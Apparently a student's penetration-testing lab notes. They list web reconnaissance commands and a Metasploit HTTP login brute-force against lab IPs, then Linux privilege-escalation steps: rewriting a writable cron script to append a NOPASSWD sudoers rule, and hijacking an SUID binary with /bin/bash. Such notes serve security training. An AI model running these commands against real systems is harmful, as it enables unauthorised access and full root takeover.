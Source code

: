     - `nmap -p80 -sV -O 10.4.16.17`
    - `whatweb 10.4.16.17`
    - `http 10.4.16.17`
    - `dirb [http://10.4.16.17](http://10.4.16.17/)`
    - `browsh --startup-url http://10.4.16.17/Default.aspx`
    - `nmap --script=http-enum -sV -p80 10.4.21.207` - http enum nmap script
    - `nmap -sV -p 80 10.4.21.207 -script banner`
    - `nmap --script=http-methods --script-args http-methods.url-path=/webdav/ -p80 10.4.21.207` - http methods nmap script
    - `curl 192.199.232.3 | more` - curl cmd
    - `use auxiliary/scanner/http/brute_dirs` - Directory brute-force
    - `use auxiliary/scanner/http/http_version` - http version
    
    **HTTP Login** 
    
    - `msfconsole`
    - `use auxiliary/scanner/http/http_login`
    - `set RHOSTS 192.199.232.3`
    - `set USER_FILE /tmp/users`
    - `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
    - `set VERBOSE false`
    - `set AUTH_URI /dir/`


  ----------------------------------------------------------------------------------------------


  - Linux Privilege Escalation
    
    **Cron jobs**
    
    - `whoami
    groups student
    cat /etc/passwd
    crontab -l`
    - `cd /`
    - `grep -rnw /usr -e "/home/student/message"`
    - `grep -rnw /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message`
    - `ls -al /usr/local/share/copy.sh`
    - `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
    - `cat /usr/local/share/copy.sh`
    - `echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers`
    - `sudo -l`
    - `sudo su`
    - Got root priviledges
   
    -------------------------------
  * SUID
   
    - - `pwd`
- `la -al`
- identify that welcome file have s binaries specifies
- `find welcome`
- `strings welcome`
- `rm greetings
cp /bin/bash greetings
./welcome`
- `cd /root`
-
